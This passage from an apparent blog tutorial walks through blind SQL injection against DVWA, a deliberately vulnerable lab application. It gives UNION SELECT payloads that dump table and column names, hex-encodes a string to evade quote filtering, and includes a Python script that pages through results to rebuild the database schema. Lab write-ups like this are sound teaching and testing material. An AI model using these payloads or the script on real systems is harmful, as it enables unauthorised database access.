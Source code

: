 However, this query fails, as you can see from the following screenshot. Since the target web application filters out quotation marks, the argument to our LIKE clause is mangled and causes the query to fail.

![Failz0rz]({{ site.baseurl }}images/hacking-blind/query-fail-1.png)


Filter evasion is simple enough, however. We simply encode the word 'dvwa' as a hex value, and MySQL will evaluate it as a string:


	id=-1 UNION SELECT ALL table_name, column_name FROM information_schema.columns WHERE table_schema LIKE 0x64767761;#

Our query succeeds, as shown below. However, suppose the page only allows us to display a single result at a time. This kind of situation is quite common, and can severely limit our ability to obtain information from the database.

![Failz0rz]({{ site.baseurl }}images/hacking-blind/query-success-1.png)

In these situations, we need to find a way to display each column one at a time. This can be accomplished using MySQL's LIMIT and OFFSET clauses.

	id=-1 UNION SELECT ALL table_name, column_name FROM information_schema.columns WHERE table_schema LIKE 0x64767761 LIMIT 1 OFFSET 1;#

We can then then write short Python script that uses a similar query to reconstruct the schema of the current database. For the sake of brevity, we've left out the script's auxiliary code (login code, query making code, etc). The complete script can be found on [github](http://github.com/s0lst1c3/dvwa_blind_sqli).

{% highlight python %}

TARGET = 'http://192.168.1.170/dvwa'
SQLI_PAGE = '%s/%s' % (TARGET, 'vulnerabilities/sqli_blind/')

SCHEMA_QUERY = '-1 UNION SELECT ALL table_name, column_name FROM information_schema.columns WHERE table_schema LIKE 0x64767761 LIMIT 1 OFFSET %d;#'


if __name__ == '__main__':

    database = {}

    # LAYER 2 - DATABASE SCHEMA

    database['tables'] = {}

    i = 0
    result = make_query(SCHEMA_QUERY % i)
    while result is not None:

        table_name = result['1']
        column_name = result['2']

        if table_name in database['tables']:
            database['tables'][table_name]['columns'].append(column_name)
        else:
            database['tables'][table_name] = {
                'name' : table_name,
                'schema' : database['schema'],
                'columns' : [ column_name ],
            }

        i += 1
        result = make_query(SCHEMA_QUERY % i)

    pprint(database)

{% endhighlight %}
